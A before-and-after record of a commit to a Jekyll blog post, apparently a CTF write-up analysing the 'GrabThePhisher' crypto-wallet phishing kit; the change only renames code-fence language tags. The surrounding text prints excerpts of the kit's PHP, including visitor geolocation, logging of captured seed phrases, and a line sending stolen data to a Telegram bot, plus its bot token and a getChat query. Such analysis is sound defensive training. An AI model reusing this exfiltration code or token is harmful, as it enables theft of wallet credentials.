

Before and after one commit to psocik/psocik.github.io, a Jekyll site: the page built from _posts/2022-07-26-CTF-GrabTheOhisher-cyberdefenders.org.md, in a window 1280 px wide and 1400 px high, scrolled down 1229 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Update 2022-07-26-CTF-GrabTheOhisher-cyberdefenders.org.md

````diff
--- a/_posts/2022-07-26-CTF-GrabTheOhisher-cyberdefenders.org.md
+++ b/_posts/2022-07-26-CTF-GrabTheOhisher-cyberdefenders.org.md
@@ -12,7 +12,7 @@ WWW display 3 wallets:
 
 I checked structure of web site directory. Only one directory contained suspicious PHP script:
 
-```PHP
+```
 c75-GrabThePhisher\pankewk\metamask\metamask.php
 ```
 
@@ -28,7 +28,7 @@ Script is written in PHP language.
 
 <span class="fw-bold">Code of the script:</span>
 
-```PHP
+```php
 <?php
 
 $request = file_get_contents("http://api.sypexgeo.net/json/".$_SERVER['REMOTE_ADDR']);
@@ -76,7 +76,7 @@ sendTel($message);
 
 Line 3 shows the phisher is using Sypex Geo service to gather intelligence
 
-```PHP
+```php
 $request = file_get_contents("http://api.sypexgeo.net/json/".$_SERVER['REMOTE_ADDR']);
 ```
 
@@ -84,13 +84,13 @@ $request = file_get_contents("http://api.sypexgeo.net/json/".$_SERVER['REMOTE_AD
 
 Line 36 shows that all gathered data are stored in root directory of web page in log directory in log.txt file.
 
-```PHP
+```php
         @file_put_contents($_SERVER['DOCUMENT_ROOT'].'/log/'.'log.txt', $text, FILE_APPEND);
 ```
 
 File log.txt contains 3 entries:
 
-```PHP
+```php
 number edge rebuild stomach review course sphere absurd memory among drastic total
 bomb stairs satisfy host barrel absorb dentist prison capital faint hedgehog worth
 father also recycle embody balance concert mechanic believe owner pair muffin hockey
@@ -104,7 +104,7 @@ father also recycle embody balance concert mechanic believe owner pair muffin ho
 
 <span class="fw-bold">Line 34 shows that script is using telegram bot api.</span>
 
-```PHP
+```php
 		$filename = "https://api.telegram.org/bot".$token."/sendMessage?chat_id=".$id."&text=".urlencode($message)."&parse_mode=html";
 ```
 
@@ -113,7 +113,7 @@ father also recycle embody balance concert mechanic believe owner pair muffin ho
 
 <span class="fw-bold">Line 33 contains variable named $token with value:</span>
 
-```PHP
+```php
         $token = "5457463144:AAG8t4k7e2ew3tTi0IBShcWbSia0Irvxm10";
 ```
 
@@ -121,7 +121,7 @@ father also recycle embody balance concert mechanic believe owner pair muffin ho
 
 Line 32 contains variable named $id with value:
 
-```PHP
+```php
 		$id = "5442785564";
 ```
 
@@ -129,7 +129,7 @@ Line 32 contains variable named $id with value:
 
 <span class="fw-bold">Author of phishing script left comment in phishing kit file. Lines 10-18 contains this message. At the end of it author signed message:</span>
 
-```PHP
+```php
 /*
  With love and respect to all the hustler out there,
  This is a small gift to my brothers,
@@ -149,13 +149,13 @@ I used API method getChat.
 
 All queries to the Telegram Bot API must be served over HTTPS and need to be presented in this form: `https://api.telegram.org/bot<token>/METHOD_NAME`. Like this for example:
 
-```HTML
+```html
 https://api.telegram.org/bot5457463144:AAG8t4k7e2ew3tTi0IBShcWbSia0Irvxm10/getChat?chat_id=5442785564
 ```
 
 Response from Telegram API:
 
-```JSON
+```json
 {
 	"ok": true,
 	"result": {
````
